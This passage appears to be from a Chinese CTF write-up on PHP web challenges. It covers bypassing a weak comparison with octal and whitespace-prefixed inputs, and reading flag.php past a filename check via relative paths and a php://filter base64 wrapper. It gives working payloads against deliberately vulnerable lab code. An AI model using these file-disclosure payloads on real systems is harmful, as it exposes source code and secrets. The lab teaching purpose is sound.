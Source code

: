 这里相比上一题使用了弱比较if($num==4476)，不能用4476.0绕过了

使用前面的八进制payload都可以绕过弱比较：

```php
 ?num=%0A010574 //这里利用了八进制+换行符，将0升至1号位strpos($num, "0")返回1
 # 根据上一个payload有一下几种变种
 %0A[换行符\n] %09[tab] %20[空格]
 ?num=%2b010574 //用正号+提升0的位置+010574，strpos($num, "0")返回1
```

## Web96：文件读取时的字符串绕过./|../html/flag.php

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:21:24
# @link: https://ctfer.com

*/


highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

payload`/?u=./flag.php` `/?u=/var/www/html/flag.php` `/?u=../html/flag.php`

### 伪协议读取文件

看到有师傅用了filter伪协议读取经过实验下面几个函数都可以用伪协议读取文件

payload：`php://filter/read=convert.base64-encode/resource=flag.php`

```php
<?php
highlight_file(__FILE__);
$u=$_GET['u'];
// highlight_file($u);
show_source($u);
// readfile($u);
// include($u);
// require($u);
// var_dump((new SplFileObject($u))->fpassthru());
// (new SplFileObject($u))->fpassthru();
//$handle = fopen($u, 'r');if ($handle === false) {die('Failed to open file');}while (($line = fgets($handle)) !== false) {echo $line;}if(!fclose($handle)){die('Failed to close file');}
// $contents = file_get_contents($u);echo $contents;
// print_r(file($u));
```
